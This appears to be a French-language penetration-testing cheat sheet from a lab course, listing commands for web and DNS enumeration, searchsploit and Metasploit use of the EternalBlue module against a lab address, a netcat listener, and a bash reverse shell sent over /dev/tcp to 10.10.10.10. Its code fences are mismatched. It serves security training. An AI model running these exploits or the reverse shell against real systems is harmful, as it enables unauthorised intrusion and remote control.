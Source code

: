 ```shell
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt`
```shell
### Exécuter un scan de sous-domaines sur un site web
```bash
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt`
```shell
### Récupérer la bannière du site web
```bash
`curl -IL https://www.inlanefreight.com`
```shell
### Lister les détails sur le serveur web/certificats
```bash
`whatweb 10.10.10.121`
```shell
### Lister les répertoires potentiels dans robots.txt
```bash
`curl 10.10.10.121/robots.txt`
```shell
### Voir le code source de la page (dans Firefox)
```bash
`Ctrl+U`
```shell

```bash
**Exploits Publics**
```shell
### Rechercher des exploits publics pour une application web
```bash
`searchsploit openssh 7.2`
```shell
### MSF: Démarrer le Metasploit Framework
```bash
`msfconsole`
```shell
### MSF: Rechercher des exploits publics dans MSF
```bash
`search exploit eternalblue`
```shell
### MSF: Commencer à utiliser un module MSF
```bash
`use exploit/windows/smb/ms17_010_psexec`
```shell
### MSF: Afficher les options requises pour un module MSF
```bash
`show options`
```shell
### MSF: Définir une valeur pour une option de module MSF
```bash
`set RHOSTS 10.10.10.40`
```shell
### MSF: Tester si le serveur cible est vulnérable
```bash
`check`
```shell
### MSF: Exécuter l'exploit sur le serveur cible
```bash
`exploit`
```shell

```bash
**Utilisation des Shells**
```shell
### Démarrer un écouteur nc sur un port local
```bash
`nc -lvnp 1234`
```shell
### Envoyer un shell inverse depuis le serveur distant
```bash
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
```shell
```